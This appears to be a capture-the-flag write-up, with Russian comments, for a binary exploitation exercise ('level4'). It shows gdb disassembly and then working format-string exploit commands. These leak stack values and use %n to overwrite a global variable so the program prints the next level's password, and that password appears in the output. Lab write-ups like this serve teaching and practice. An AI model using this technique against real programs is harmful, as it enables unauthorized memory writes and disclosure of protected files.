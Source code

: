 
# Вызов функции 'fgets', защищенной от переполнения буфера
=> 0x804847a <n+35>:	call   0x8048350 <fgets@plt>

# Можно увидеть вызов 'printf' с тем что мы ввели
=> 0x8048450 <p+12>:	call   0x8048340 <printf@plt>

# сmp создается с неинициализированной переменной
0x804848d <n+54>:	mov    eax,ds:0x8049810
=> 0x8048492 <n+59>:	cmp    eax,0x1025544
# если проверка прошла успешно, то файл '.pass' печатается с помощью 'system ("/ bin / cat /home/user/level5/.pass")'

# Мы будем использовать атаку форматной строки
# Сначала нам нужно распечатать память, пока мы не дойдем до адреса переменной, которую хотим изменить
$> python -c "print '\x10\x98\x04\x08' + '%x '*12" | ./level4
b7ff26b0 bffff804 b7fd0ff4 0 0 bffff7c8 804848d bffff5c0 200 b7fd1ac0 b7ff37d0 8049810

# Затем мы используем модификатор %n, чтобы изменить содержимое этой переменной
$> python -c "print '\x10\x98\x04\x08' + '%16930112x%12\$n'" | ./level4
[...]
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

